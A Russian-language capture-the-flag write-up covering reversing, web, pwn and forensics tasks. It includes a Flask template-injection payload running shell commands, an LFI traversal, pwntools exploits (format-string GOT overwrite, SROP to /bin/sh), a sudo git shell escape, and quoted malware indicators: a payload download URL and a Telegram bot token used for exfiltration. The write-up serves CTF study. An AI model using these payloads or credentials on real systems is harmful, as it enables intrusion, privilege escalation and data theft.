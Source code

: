 # nto_4fun_2024
## REV-1. 
В таске был encrypt ввода, после чего его версия сравнивалась с заданной
 ![Screenshot_2024-03-21_14_07_43](https://github.com/Kreedman05/nto_4fun_2024/assets/164340613/f9103d65-ba78-4d0e-915e-e0956b53be2c)
Для решения таска необходимо было забрутить его значения.
```python
flag_enc_2 = [0xf3, 0xe1, 0xcf, 0xed, 0x23, 0xcd, 0x6b, 0x64, 0x57, 0xad, 0xf9, 0x50, 0xe1, 0xb1, 0x99, 0xf2, 0xe4, 0xb6, 0xa9, 0xc6, 0x4c, 0x61, 0x80, 0x32, 0x02, 0x2b, 0x77, 0x93, 0x43, 0x3a, 0x2c, 0xab, 0x6a, 0x93, 0x0d, 0x2a, 0xd4, 0x14, 0xfa, 0x1b, 0x2f, 0x6f, 0x5d, 0x25, 0x6b, 0xf6, 0x47, 0xc4, 0xf5, 0x6c, 0xd9, 0x5a, 0x12, 0xad, 0x64, 0xe9]
a = [0]*256
for i in range(256):
    num=i
    for j in range(8):
        if (num&1)==0:
            num=num>>1
        else:
            num = num >> 1 ^ 0xedb88320
    a[i] = hex(num)
flag_enc=[0xedcfe1f3, 0x646bcd23, 0x50f9ad57, 0xf299b1e1, 0xc6a9b6e4, 0x3280614c, 0x93772b02, 0xab2c3a43, 0x2a0d936a, 0x1bfa14d4, 0x255d6f2f, 0xc447f66b, 0x5ad96cf5, 0xe964ad12]
for i in flag_enc:
    for k in range(0xff+1):
        for m in range(0xff+1):
            inp = [k,m]
            xor_point = 0xffffffff
            for j in range(2):
                xor_point=abs(int(a[(inp[j] ^ xor_point)&0xff], 16)) ^ (xor_point >> 8)
            if hex(0xffffffff - xor_point) == hex(i):
                print(chr(k)+chr(m),end="")
```

## Web-1.
1. burp
2. target
3. download запрос на file1.txt
4. hint1: указание что флаг в /etc/secret
5. LFI /download?file_type=../../etc/secret
6. Profit!
![web1 1](https://github.com/Kreedman05/nto_4fun_2024/assets/164340613/68bb735e-ca77-4362-b6ce-46de99d7310d)
![web1 2](https://github.com/Kreedman05/nto_4fun_2024/assets/164340613/b980683b-8f5e-42af-bad5-7112e81a6bf6)


## Web-2
При распаковке сервера были написаны креды:
- AdminPassword = "password";
Попробовав их на сервере, иы получили флаг.

## Web-3
403 error bypass(дополнительный / перед flag)
template injection flask
http://192.168.12.11:8001//flag?name={{self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%22cat%20flag.txt%22).read()}}
![web3](https://github.com/Kreedman05/nto_4fun_2024/assets/164340613/14cc0e39-3750-47b6-b74d-4bb765d1c289)

## PWN-1
В задаче была классическая уязвимость форматной строки:
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char s[1032]; // [rsp+0h] [rbp-410h] BYREF
  unsigned __int64 v4; // [rsp+408h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  fgets(s, 1024, _bss_start);
  printf(s);
  exit(0);
}
```
Наша цель - прыгнуть в функцию **win**. Мы можем перетереть в .got.plt функцию **exit()** на нашу **win()**. Итоговый эксплойт выглядит так:
```python
from pwn import *

context.binary = exe = ELF("./main")
def start():
    if args.LOCAL:
        return process("./main")
    else:
        return remote(sys.argv[1],sys.argv[2])

io = start()
win = exe.symbols['win']
writes = {0x404018:win}
payload = fmtstr_payload(6,writes,0)
io.sendline(payload)
io.interactive()
```

## PWN-2
В этой задаче нужно было проэксплуатировать переполнение буфера и, используя техинку Sigreturn Oriented Programming (sROP) вывзвать `/bin/sh`.
Сам бинарь имеет всего один сисколл:
```asm
   0x0000000000041000 <+0>:     mov    rdi,0x0
   0x0000000000041007 <+7>:     mov    rsi,rsp
   0x000000000004100a <+10>:    sub    rsi,0x8
   0x000000000004100e <+14>:    mov    rdx,0x1f4
   0x0000000000041015 <+21>:    syscall
   0x0000000000041017 <+23>:    ret
   0x0000000000041018 <+24>:    pop    rax
   0x0000000000041019 <+25>:    ret
```

Идем в гугол и ищем сплойт для sROP:
```python
from pwn import *
def start():
    if args.LOCAL:
        return process("./task")
    else:
        return remote(sys.argv[1],sys.argv[2])

io = start()
offset = 8
BINSH = exe.address + 0x1430
payload = b'a'*8
payload += p64(0x41018)
payload += p64(0xf)
payload += p64(0x41015)

frame = SigreturnFrame()
frame.rax = 0x3b            
frame.rdi = BINSH           
frame.rsi = 0x0             
frame.rdx = 0x0             
frame.rip = 0x41015

payload += bytes(frame)
io.sendline(payload)
io.interactive()
```
## Forensic-1
1. Кто-то скачал архив RAR, который содержал в себе PDF-файл, а также CMD-файл, который скачал полезную нагрузку. Архив лежал по пути **C:\Users\Evgeniy\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\CQ2HQVTU\classfied.rar.ransom**. Судя по расположению архива, он был доставлен по почте.
2. Полезная нагрузка была скачана с [http://95.169.192.220:8080/prikol.exe](http://95.169.192.220:8080/prikol.exe).
3. Уязвимость CVE-2023-38831.
4. Для противодействия отладке используются вызовы из WinAPI - CheckRemoteDebuggerPresent() и IsDebuggerPresent(), Если эти вызовы возвращают True (хотя бы один), то вредонос завершает работу.
5. Программа использует алгоритм AES CBC.
6. amogusamogusamogusamogusamogusam.
7. Программа делает POST запрос по URL [https://api.telegram.org/bot7029575943:AAFNYmmW_QqqMcaHZ-DFRn3M05DptExeAGE/sendDocument](https://api.telegram.org/bot7029575943:AAFNYmmW_QqqMcaHZ-DFRn3M05DptExeAGE/sendDocument) и отправляет файл info.txt боту.
8. sFYZ#2z9VdUR9sm`3JRz.

## Forensic-2

1. GitLab 15.2.
2. Тип уязвимости - RCE (в данном случае CVE-2022-2884)
3. Пользователь git был добавлен в файл /etc/sudoers с правом на исполнение бинаря git, который имел SUID бит и мог выполняться от имени root.
4. Злоумышленник повысил свои привелегии через SUID бинарь - git.
   sudo git -p help config !/bin/sh
5. В папке ~/root/.ssh/authorized_keys есть ключ авторизации для amogus@debian
 **ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIKXFjUp2LlKAsLvM1PZE7CYEfztiZrOf8PHx9ja1mu2 amongus@debian**
6. Злоумышленник просканировал система через linpeas, для повышения привелегий
7. бэкдор LD_PRELOAD через jynx2

